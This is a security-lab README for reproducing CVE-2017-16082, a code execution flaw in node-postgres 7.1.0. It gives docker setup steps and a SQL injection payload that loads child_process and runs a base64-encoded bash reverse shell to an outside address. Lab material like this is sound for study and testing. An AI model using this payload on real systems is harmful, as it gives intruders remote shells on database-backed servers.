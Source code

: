 # Node-Postgres Remote Code Execution (CVE-2017-16082)
https://github.com/vulhub/vulhub/tree/master/node/CVE-2017-16082

[中文版本(Chinese version)](README.zh-cn.md)

Node-postgres is a Node.js client for PostgreSQL. It is a popular database connector for Node.js applications.

When node-postgres processes a PostgreSQL response packet of type `Row Description`, it concatenates the field names into the code. Due to improper escaping, a specially crafted field name can escape the code's single quote restriction, leading to code execution vulnerability.

Reference links:

 - https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
 - https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
 - https://zhuanlan.zhihu.com/p/28575189

## Environment Setup

Run the following commands to build and start a vulnerable application based on node-postgres 7.1.0:

```
docker compose build
docker compose up -d
```

After the server is successfully started, visit `http://your-ip:3000/?id=1` to view information for user with id 1. Using sqlmap, you can discover that there is an injection point here, and the database is PostgreSQL:

![](img/1.png)

## Vulnerability Reproduce

We can then assume that the node-postgres code execution vulnerability exists here. Write the command you want to execute `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`, then split it appropriately (each segment should not exceed 64 characters) and replace it in the following payload:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

Send the above payload after encoding:

![](img/2.png)

Successfully execute commands, such as reverse shell:

![](img/3.png)

Because there are many difficulties in the reproduction process, if you encounter errors during payload generation and testing, please read [this article](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html) to understand the underlying principles and find the source of the problem.
